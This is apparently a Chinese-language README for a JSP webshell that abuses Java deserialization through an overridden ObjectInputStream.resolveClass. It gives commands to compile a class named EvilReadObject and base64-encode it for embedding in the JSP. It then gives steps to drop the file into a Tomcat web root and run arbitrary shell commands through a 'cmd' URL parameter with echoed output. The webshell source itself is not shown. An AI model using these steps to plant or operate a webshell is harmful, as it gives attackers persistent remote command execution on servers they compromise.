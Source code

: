 ### 重写ObjectInputStream.resolveClass实现反序列化readObject触发的JSP Webshell

编译字节码:
```
javac EvilReadObject.java

cat EvilReadObject.class|base64
```

使用：
```
ps:若要修改字节码逻辑，修改后按照上面编译字节码的方式得到base64字节码替换jsp文件中的base64字节码

1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问12.jsp，并使用参数cmd传入需要远程执行的命令，例：http://127.0.0.1:8080/12.jsp?cmd=whoami

3.服务器将会执行相应的shell命令，最后回显
```